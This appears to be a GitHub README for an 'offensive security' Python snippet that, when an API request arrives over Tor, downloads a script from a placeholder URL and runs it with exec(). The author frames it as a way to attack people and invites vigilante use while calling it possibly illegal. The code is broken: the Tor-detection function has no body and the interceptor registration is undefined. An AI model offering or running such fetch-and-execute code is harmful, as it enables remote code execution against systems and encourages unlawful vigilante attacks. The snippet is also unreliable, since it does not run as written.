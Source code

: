 # Feuerteufel Logic
###### RedTeam Script Examples (EDU) by Volkan Sah - simple codings for 'Offensive Security' (updated 5/2023)

DANGER!

A creative Python script that intercepts API requests and, when accessed through the Tor network, loads and runs an external script from a specified URL to Fuck them!
However, keep in mind that this is a highly risky and potentially illegal activity. Use at your own risk and only against crime and child abuse!
##Sorry cant explane all or you know what can be!

Please see [SherlocksHome](https://github.com/VolkanSah/SherlocksHome/) to custumize your logic

```python
import requests

def intercept_api_requests(request):
    if check_if_accessed_over_tor(request):
        external_script_url = "https://example.com/external_script.py"
        response = requests.get(external_script_url)
        if response.status_code == 200:
            exec(response.text)
        else:
            print("Failed to load the external script.")

def check_if_accessed_over_tor(request):
    # Implement your logic to detect if the request is coming from the Tor network
    # This might involve inspecting the request headers or analyzing network traffic
    # Be aware that attempting to bypass security measures is likely illegal and unethical

# Register the interceptor function to intercept API requests
register_interceptor(intercept_api_requests)
```

## issues
Issues to this script are not accepted as it is intended for educational purposes only and not for production use.

### Thank you for your support!
- If you appreciate my work, please consider [becoming a 'Sponsor'](https://github.com/sponsors/volkansah), giving a :star: to my projects, or following me. 
### Copyright
- [VolkanSah on Github](https://github.com/volkansah)
- [Developer Site](https://volkansah.github.io)
